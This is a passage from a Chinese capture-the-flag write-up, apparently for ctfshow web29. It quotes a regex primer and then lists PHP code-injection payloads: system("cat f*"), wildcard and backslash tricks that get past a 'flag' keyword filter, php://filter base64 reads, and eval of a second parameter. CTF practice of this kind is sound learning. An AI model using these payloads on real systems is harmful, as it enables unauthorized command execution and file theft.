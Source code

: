 ```
eg：
[a-z]表示任何小写字母
a*会匹配所有内容，因为a可以出现0次
o{2,}不匹配Bob中o，匹配foooooood中所有的o
————————————————
版权声明：本文为CSDN博主「zgqxiexie」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/zgqxiexie/article/details/51184602
```

这题中我们的指令为

```
?c=system("cat f*");
```

传入后查看源码

![image-20231216114202484](照片/image-20231216114202484.png)

得到flag

##### 方法二：

```
1.通配符fla?绕过flag检测

2.c=echo `nl fl\ag.php`;//转义字符绕过

3.通过变量赋值直接绕过c的过滤 这个后面会经常用到，到时候再细讲
c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php

4.c=eval($_GET[1]);&1=system('nl flag.php');

```



------

#### web30

进入后分析一下

![image-20231216114217747](照片/image-20231216114217747.png)
